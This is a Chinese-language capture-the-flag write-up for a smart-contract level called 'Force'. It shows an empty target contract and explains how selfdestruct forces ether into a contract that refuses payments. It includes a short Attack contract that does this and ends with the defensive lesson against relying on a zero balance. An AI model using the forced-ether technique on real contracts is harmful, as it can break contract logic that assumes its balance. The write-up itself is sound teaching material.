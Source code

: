 # Force

> 有些合约就是拒绝你的付款,就是这么任性 `¯\_(ツ)_/¯`
>
> 这一关的目标是使合约的余额大于0

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

## 攻击思路

如果直接给合约转账，会报错：rror in RPC response:,execution reverted

在合约不接受转账（未实现fallback和receive函数）时，如果强制给合约账户进行转账？

在日常进行solidity开发时，有时能看到这样的报错

```
Invalid implicit conversion from address to address payable requested.
```

即某个地址不具备payable属性，这时一般就会进行强转：

```
payable(_address)
```

### selfdestruct

The `selfdestruct(address)` function removes all bytecode from the contract address and sends all ether stored to the specified address. If this specified address is also a contract, <u>**no functions (including the fallback) get called**</u>.



[How to Hack Smart Contracts: Self Destruct and Solidity](https://hackernoon.com/how-to-hack-smart-contracts-self-destruct-and-solidity)

[Intro to Smart contract exploits: Selfdestruct function](https://slowmist.medium.com/intro-to-smart-contract-exploits-selfdestruct-function-14c10ca00bb6)

攻击合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}

contract Attack {

   function attack(address _address) public payable {
       selfdestruct(payable(_address));
   }
}
```

在solidity中, 如果一个合约要接受 ether, fallback 方法必须设置为 `payable`.

但是, 并没有发什么办法可以阻止攻击者通过自毁的方法向合约发送 ether, 所以, 不要将任何合约逻辑基于 `address(this).balance == 0` 之上.